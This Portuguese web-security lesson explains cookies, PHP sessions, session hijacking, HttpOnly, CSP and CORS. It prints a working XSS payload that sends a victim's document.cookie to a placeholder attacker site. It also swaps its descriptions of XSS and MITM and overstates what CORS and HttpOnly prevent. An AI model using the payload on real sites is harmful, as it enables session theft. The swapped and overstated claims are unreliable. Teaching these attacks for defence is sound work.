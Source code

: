 # Cookie e Sessão


## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles se mostram úteis, uma vez que 
a conexão HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistente. Se dependêssemos apenas das conexões HTTP, seria impossível usar um carrinho de compras, pois ao trocar para a página de compra, as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_ no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente como volume do player de música ou vídeo, cor do fundo do site, etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito pelo PHP.
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar a sessão (mas ainda não é uma sessão), de forma que um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de vida (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador.

## Sessões

Agora, ao que nos interessa, **os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É graças às sessões que é possível se logar em sites de redes sociais apenas uma vez em muito tempo. Quando o usuário se conecta, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa. A maioria dos sites que implementa esse recurso estabelece uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão o _cookie_ não existe, então o site manda o browser salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o browser mudar para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo para se tornar administrador do site, burlando todo o sistema de segurança.

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid`, _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_, que terá acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** ou Sequestro de Sessão.

Não tem como evitar que alguém que tenha acesso físico ao seu computador com o navegador aberto na página obtenha sua sessão, mas se ele chegou a esse ponto ele já tem controle total.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**), embora menos comum. O primeiro ataque é descrito basicamente com o atacante entrando no meio da conexão não encriptada (HTTP) e lendo todo o tráfego entre você e o site, incluindo os _cookies_ enviados e sua sessão. O segundo ataque resume-se no atacante injetar código na página de aluguma forma ([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)), esse código injetado pode ler e modificar o conteúdo dos _cookies_ armazenados.

#### Exemplo de Session Hijacking por meio de XSS

```htmlmixed
<script type="text/javascript">
new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um script no site dele para salvar o cookie que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.



## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, mas uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de javascript, seja ele legítimo da página ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ (possivelmente uma sessão) ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante. (Mesmo assim, ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS]((https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md))

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
